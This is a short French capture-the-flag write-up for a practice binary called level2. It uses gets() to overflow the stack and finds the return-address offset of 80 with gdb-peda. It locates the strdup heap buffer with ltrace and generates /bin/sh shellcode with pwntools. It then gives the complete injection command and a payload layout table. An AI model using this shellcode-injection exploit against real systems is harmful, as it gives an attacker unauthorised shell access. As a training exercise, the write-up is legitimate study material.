 # L3V31 D3UX

- C'est le meme que le precedent gets a une vulnerabilité en aillant pas de limite de taille
- On regarde combien il faut ecrire pour pouvoir overwrite la Return Address
<pre>
$> gdb ./level2
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EBP: 0x41344141 ('AA4A')
ESP: 0xffffd8a0 ("fAA5AAKAAgAA6AAL")
<strong>EIP: 0x41414a41 ('AJAA')</strong>
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern offset AJAA
<strong>AJAA found at offset: 80</strong>
</pre>
- On recupere l'addresse generer par le strdup qui contiendra notre shellcode
<pre>
$> python -c "print('a' * 75)" | ltrace ./level2
\_\_libc\_start\_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)          = 0xbffff6fc
puts("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)            = 76
<strong>strdup("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)          = 0x0804a008</strong>
+++ exited (status 8) +++
</pre>

- On genere notre shellcode avec pwntool
```
$> python3 -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

- Voici la commande complete
```
((python -c 'print("\x90"*20 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "A"*16 + "\x08\xa0\x04\x08")'); cat) | ./level2
```

```
| Size |      Name      | Data           |
|:----:|:--------------:|----------------|
|      |                | '\90' * 20     |
|  76  |      Stack     | ShellCode (44) |
|      |                | 'a' * 12       |
|------|----------------|----------------|
|   4  |       SFP      | 'a' * 4        |
|------|----------------|----------------|
|   4  | Return Address | Adress strdup  |
|------|----------------|----------------|
```

<table>
<tbody>
<tr>
<td align="center">Size</td>
<td align="center">Name</td>
<td align="center">Data</td>
</tr>
<tr>
<td align="center" rowspan="3">76</td>
<td align="center" rowspan="3">Buffer</td>
<td align="left">'\90' * 20</td>
</tr>
<tr><td align="left">ShellCode (44)</td></tr>
<tr><td align="left">'a' * 12</td></tr>
<tr>
<td align="center">4</td>
<td align="center">SFP</td>
<td align="left">'a' * 4</td>
</tr>
<tr>
<td align="center">4</td>
<td align="center">Return Adress</td>
<td>
<p align="left">Adress strdup</p>
</td>
</tr>
</tbody>
</table>
